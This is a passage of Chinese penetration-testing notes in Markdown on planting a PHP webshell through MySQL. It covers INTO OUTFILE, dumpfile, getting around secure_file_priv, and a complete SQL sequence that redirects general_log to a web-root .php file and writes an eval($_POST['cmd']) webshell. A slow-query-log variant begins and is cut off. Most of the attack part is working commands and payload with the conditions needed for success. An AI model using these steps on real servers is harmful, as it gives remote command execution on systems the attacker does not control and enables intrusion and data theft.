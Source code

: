         ?id=1 INTO OUTFILE '物理路径' lines starting by    （一句话hex编码）#
        ```

- ```
    into dumpfile()：只能写一行,而且没有转义符号，也就是没有换行之类的功能
    ```

- 在mysql 5.6.34版本以后 secure_file_priv的值默认为NULL。并且无法用sql语句对其进行修改，就是不让导出

    - ```
        解决办法：
        
        在Windows下可在my.ini的[mysqld]里面，添加secure_file_priv=
        在linux下可在/etc/my.cnf的[mysqld]里面，添加secure_file_priv=
        然后重启服务器
        ```

    - 但是我们一般没法去修改服务器的配置文件
      

- **通过修改MySQL的log文件来获取Webshell。**

    - 原理：

        - MySQL 5.0版本以上会创建日志文件，然后执行的sql语句会被写入到日志文件中，我们通过修改日志文件的位置到网站上，就相当于写入了一个webshell了。

    - **需要满足的条件**

        - 对web目录有写权限，这个和secure-file-priv的值没有关系。一般都会有权限写web目录的。

        - GPC关闭(GPC:是否对单引号转义)

        - 有绝对路径(读文件可以不用，写文件需要)

        - 需要能执行多行SQL语句

    - ```mysql
        show variables like '%general%';            	 # 查看配置
        #先来看MySQL的两个全局变量：general_log 和 general_log file。general log 指的是日志保存状态，ON代表开启 OFF代表关闭。general log file 指的是日志的保存路径。这两个变量我们都可以修改
        
        set global general_log = on;              		 # 开启general log模式,将所有到达MySQL Server的SQL语句记录下来。
        
        set global general_log_file = 'C:/Users/Administrator/Downloads/phpStudy20161103/WWW/123.php'; # 设置日志目录为shell地址
        
        select '<?php eval($_POST["cmd"]);?>'             	 # 写入shell
        
        
        set global general_log=off;                  	 # 关闭general log模式
        ```

    -  然后webshell连接就行

- **通过慢查询日志写入webshell**

    - 和日志原理一样，不过这个是慢查询日志，**慢查询日志用来记录在 MySQL 中执行时间超过指定时间的查询语句**

    - ```
        show variables like '%slow_query_log%';			#查看慢查询日志开启情况
        
        set global slow_query_log=on						#开启慢查询日志
        